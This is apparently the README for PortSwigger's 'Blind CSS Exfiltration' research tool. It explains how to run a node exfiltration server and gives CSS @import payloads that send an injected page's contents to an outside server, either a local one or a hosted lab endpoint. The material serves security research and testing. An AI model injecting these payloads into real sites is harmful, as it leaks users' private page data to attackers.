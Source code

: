 # Blind CSS Exfiltration
# Exfiltrate unknown web pages

## Using the exfiltrator
To run your own version of the exfiltrator you need to first grab the source code from above and then run it using node:
node css-exfiltrator-server.js

This will start the server. Once the server is started it should be running on localhost:5001 by default. You can change this in the code. To start an exfiltration you simply need to make an @import request to the exfiltrator server:

```html
<style>
@import 'http://localhost:5001/start';    
</style>
```

## Demo
You can get a demo of our exfiltrator using PortSwigger labs. Note you can only exfiltrate once per IP. If more than one person tries to exfiltrate with the same IP the previous session will be deleted. Enjoy!

```html
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';    
</style>
```

## How it works

I've written a blog post on how the whole process works. You can read it at:
[Blind CSS Exfiltration](https://portswigger.net/research/blind-css-exfiltration)
